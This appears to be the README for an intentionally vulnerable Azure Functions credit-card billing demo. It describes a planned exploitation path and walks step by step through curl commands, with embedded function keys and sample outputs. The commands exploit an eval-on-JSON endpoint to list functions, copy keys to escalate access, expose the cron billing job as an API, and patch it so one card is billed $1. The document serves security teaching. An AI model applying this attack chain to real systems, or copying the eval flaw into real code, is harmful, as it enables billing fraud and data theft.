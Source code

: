 Setup notes

- After deploying the .js files and package.json file for each function, you'll need to go into the scm console <appname.scm.azurewebsites.net/DebugConsole>, go into the home/site/wwwroot/<functionName> directory and run `npm install`.

- Sometimes calls to the API just seem to fail.  Can't reproduce locally.  Not sure, just try again.

-----------------------------------
Concept

Layout for the vulnerable app.

Maybe delivered with serverless?

Concept:
* This is a webapp to consolidate credit card payments.  
* Payments aggregate over the month, and at the end of the month a scheduled function sends a single bill out, thus avoiding additional credit card fees.

Endpoints / functions:
* Check my balance:
  * API endpoint
  * In:
    * The 'semi-public' key for the function
    * Their card number in json format {cardNumber: <cardnum>} which is eval'd
  * Returns: dates and amounts of purchases
  * This is the vulnerable endpoint
* Check what will be paid at the end of the month:
  * API endpoint
  * Requires master (or 'more secret') key to use
  * Returns dict of card #s to payments processed
* Billing function:
  * Cron for once monthly
  * Per customer, sums costs and then sends the bill out
  * Marks as billed? (allowing spoofing)
* API endpoint for writing charges? (not implemented yet, maybe unneccesary)
  * Change code to not accept your credit card?

Exploitation path:
* Discover arbitrary code execution in initial API endpoint:
  * Since path is read-only, we're not too worried about breaking things
  * exploit is just eval'ing some JSON to make things super simple
  * Information gained:
    * Master key / secure key (encrypted, haven't dug into how to decrypt)
    * List of other functions (we didn't know about the other ones)
    * General access
* Dump sources of other functions as wanted
* Take key
  * Use to trigger the general 'card info' function
* Modify billing function:
  * Change it from cron to API
  * Trigger billing at arbitrary times
  * Change source of billing function to only bill me $1
* Change source of 'charge writing' API to not accept my card (or someone else's?) (if fn exists)

SQL schema:
* Cards: ID, card#, API key
* Purchases: ID, CardID, Time, $amount

----------------------------

Routes: (plug the relevant keys in for your own? functions app)

vuln_api: takes your credit card #, returns just your charges.
curl -X POST -d @benign.json -H "Content-Type: application/json" https://themnem-test.azurewebsites.net/api/PublicVuln?code=pB8Aof9ly1YZ79x9ZlgkhWJXq7L3ZNINC09b17Y6SHuVIzHheHtdqA==
example: [{"amount":24.99,"date":"2017-06-15T00:00:00Z"},{"amount":5.99,"date":"2017-06-17T00:00:00Z"}]

totalView: Doesn't take any arguments.  Returns the list of all charges.
curl -X POST -d '{}' -H "Content-Type: application/json" https://themnem-test.azurewebsites.net/api/TotalView?code=NKsfko79s6xRHgi838kqeoycX6Jk7gaALAY0Gwdb65afCETnY02pXA==
example: [{"card_id":1,"amount":24.99,"date":"2017-06-15T00:00:00Z"},{"card_id":1,"amount":5.99,"date":"2017-06-17T00:00:00Z"},{"card_id":2,"amount":8,"date":"2017-06-16T00:00:00Z"},{"card_id":2,"amount":29,"date":"2017-06-18T00:00:00Z"},{"card_id":2,"amount":0.99,"date":"2017-06-18T00:00:00Z"}]

billing: Sums up the cards to do the billing.  Can't be triggered via API, is triggered via cron.

Vulns:
curl -X POST -d @print_return.json -H "Content-Type: application/json" https://themnem-test.azurewebsites.net/api/PublicVuln?code=pB8Aof9ly1YZ79x9ZlgkhWJXq7L3ZNINC09b17Y6SHuVIzHheHtdqA==
example: "hax!"

List available functions with secret sets via list_functions:
curl -X POST -d @list_functions.json -H "Content-Type: application/json" https://themnem-test.azurewebsites.net/api/PublicVuln?code=pB8Aof9ly1YZ79x9ZlgkhWJXq7L3ZNINC09b17Y6SHuVIzHheHtdqA==
example: ["billing.json","host.json","httptriggerjs2.json","manualtriggerjs1.json","publicvuln.json","timertriggerjs1.json","totalview.json","totalview.json.bkup","totalview.json.orig"]

Try to run totalview:
curl -X POST -d '{}' -H "Content-Type: application/json" https://themnem-test.azurewebsites.net/api/TotalView?code=pB8Aof9ly1YZ79x9ZlgkhWJXq7L3ZNINC09b17Y6SHuVIzHheHtdqA==
example: this doesn't work because we don't have the key!

Change permissions on totalview: (they keys on disk are encrypted, but they're all encrypted against the same key, so we can just copy in our known working one!)
curl -X POST -d @change_totalview_perms.json -H "Content-Type: application/json" https://themnem-test.azurewebsites.net/api/PublicVuln?code=pB8Aof9ly1YZ79x9ZlgkhWJXq7L3ZNINC09b17Y6SHuVIzHheHtdqA==
example: "done"

After changing perms, run totalView again:
curl -X POST -d '{}' -H "Content-Type: application/json" https://themnem-test.azurewebsites.net/api/TotalView?code=pB8Aof9ly1YZ79x9ZlgkhWJXq7L3ZNINC09b17Y6SHuVIzHheHtdqA==
example: [{"card_id":1,"amount":24.99,"date":"2017-06-15T00:00:00Z"},{"card_id":1,"amount":5.99,"date":"2017-06-17T00:00:00Z"},{"card_id":2,"amount":8,"date":"2017-06-16T00:00:00Z"},{"card_id":2,"amount":29,"date":"2017-06-18T00:00:00Z"},{"card_id":2,"amount":0.99,"date":"2017-06-18T00:00:00Z"}]

Now what's Billing - let's read its function metadata:
curl -X POST -d @read_billing_info.json -H "Content-Type: application/json" https://themnem-test.azurewebsites.net/api/PublicVuln?code=pB8Aof9ly1YZ79x9ZlgkhWJXq7L3ZNINC09b17Y6SHuVIzHheHtdqA==
example: "{\r\n  \"bindings\": [\r\n    {\r\n      \"name\": \"myTimer\",\r\n      \"type\": \"timerTrigger\",\r\n      \"direction\": \"in\",\r\n      \"schedule\": \"0 0 0 1 * *\"\r\n    }\r\n  ],\r\n  \"disabled\": false\r\n}"

We can't call it by API since it's a cron job.  Let's change it to being API-able:
curl -X POST -d @change_billing_to_api.json -H "Content-Type: application/json" https://themnem-test.azurewebsites.net/api/PublicVuln?code=pB8Aof9ly1YZ79x9ZlgkhWJXq7L3ZNINC09b17Y6SHuVIzHheHtdqA==

Now change the permissions to use our known key like above:
curl -X POST -d @change_billing_perms.json -H "Content-Type: application/json" https://themnem-test.azurewebsites.net/api/PublicVuln?code=pB8Aof9ly1YZ79x9ZlgkhWJXq7L3ZNINC09b17Y6SHuVIzHheHtdqA==

Now we can query it via API:
curl -X POST -d @benign.json -H "Content-Type: application/json" https://themnem-test.azurewebsites.net/api/Billing?code=pB8Aof9ly1YZ79x9ZlgkhWJXq7L3ZNINC09b17Y6SHuVIzHheHtdqA==
example: [{"1234-5678-9012-3456":30.98},{"0000-0000-0000-0000":37.99}]

But we don't want to be billed, right?  Let's see how billing works by dumping the source:
curl -X POST -d @read_billing_source.json -H "Content-Type: application/json" https://themnem-test.azurewebsites.net/api/PublicVuln?code=pB8Aof9ly1YZ79x9ZlgkhWJXq7L3ZNINC09b17Y6SHuVIzHheHtdqA==
example: <bunch of js source>

Now let's put in something for our card:
curl -X POST -d @patch_billing_code.json -H "Content-Type: application/json" https://themnem-test.azurewebsites.net/api/PublicVuln?code=pB8Aof9ly1YZ79x9ZlgkhWJXq7L3ZNINC09b17Y6SHuVIzHheHtdqA==
example: "done"

And when we query billing again:
curl -X POST -d @benign.json -H "Content-Type: application/json" https://themnem-test.azurewebsites.net/api/Billing?code=pB8Aof9ly1YZ79x9ZlgkhWJXq7L3ZNINC09b17Y6SHuVIzHheHtdqA==
example: {"1234-5678-9012-3456":1,"0000-0000-0000-0000":37.99}


TODO:

- make it cooler by making vuln_api use an sql user that doesn't have creds to just do the further queries by itself (so we have to gain access to totalView)
